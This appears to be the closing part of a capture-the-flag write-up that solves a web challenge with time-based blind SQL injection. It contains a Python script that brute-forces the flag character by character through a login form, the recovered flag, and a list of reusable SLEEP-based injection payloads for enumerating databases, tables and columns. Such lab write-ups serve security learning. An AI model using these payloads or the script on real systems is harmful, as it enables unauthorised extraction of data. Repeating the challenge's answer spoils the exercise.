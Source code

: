 ```python
flag=""
while i<len_flag:
    for name_char in chars:
        sql_injection="' OR 1=IF((SELECT "+column2_name+" FROM "+table1_name+" LIMIT 0,1) LIKE '"+str(flag_name+name_char)+"%', SLEEP(12), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=10)  #Random Password
        except:
            flag_name+=name_char
            break
    i=i+1

flag=flag_name.replace("\_","_")
print ("[Found]The flag is: "+flag) #Flag
```
During the discovery of each character of the flag I encountered some difficulties because some requests were processed more slowly than usual and therefore some discovered characters were wrong (I don't know why this problem didn't happen to me in other phases of the attack as well). Therefore, I decided to increase the requests' timeout interval and the number of seconds specified inside the sleep() function.

Let's run it (this part may take a few minutes to complete and find the flag):

![Len_Flag](https://user-images.githubusercontent.com/66698256/230970687-e7b4208c-7ed2-44b6-9087-ba44e18ba4b7.png)

![Flag](https://user-images.githubusercontent.com/66698256/230970709-d09586c9-32b0-4675-be9f-27c26b19e474.png)

(If sometimes the exploit doesn't work I recommend you to adjust some time parameters, since its functioning also depends on the type of network connection you have)

Flag is <code>bucket{h4d35t_sql1_2b05bc}</code>.

## Payloads

Here is a summary of all the payloads used in the various phases of the attack. These should be used in loops with different values (as shown in the codes above).

+ <code>' OR 1=IF((SELECT LENGTH(database()))=numeric_value, SLEEP(5), 1)#</code> for the length of the database name;<br>
+ <code>' OR 1=IF((SELECT database()) LIKE 'substring%', SLEEP(5), 1)#</code> for database name;<br>
+ <code>' OR 1=IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=numeric_value, SLEEP(5), 1)#</code> for the tables count in the database;<br>
+ <code>' OR 1=IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=numeric_value, SLEEP(5), 1)#</code> for the length of the first table name;<br>
+ <code>' OR 1=IF((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'substring%', SLEEP(5), 1)#</code> for the first table name;<br>
+ <code>' OR 1=IF((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='first_table_name')=numeric_value, SLEEP(5), 1)#</code> for the columns count in the first table;<br>
+ <code>' OR 1=IF((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='first_table_name' LIMIT 1,1)=numeric_value, SLEEP(5), 1)#</code> for the length of the second column name of the first table;<br>
+ <code>' OR 1=IF((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='first_table_name' LIMIT 1,1) LIKE 'substring%', SLEEP(5), 1)#</code> for the second column name of the first table;<br>
+ <code>' OR 1=IF((SELECT LENGTH(secondo_column_name) FROM first_table_name LIMIT 0,1)=numeric_value, SLEEP(10), 1)#</code> for the length of the flag;<br>
+ <code>' OR 1=IF((SELECT second_column_name FROM first_table_name LIMIT 0,1) LIKE 'substring%', SLEEP(12), 1)#</code> for the flag.<br>
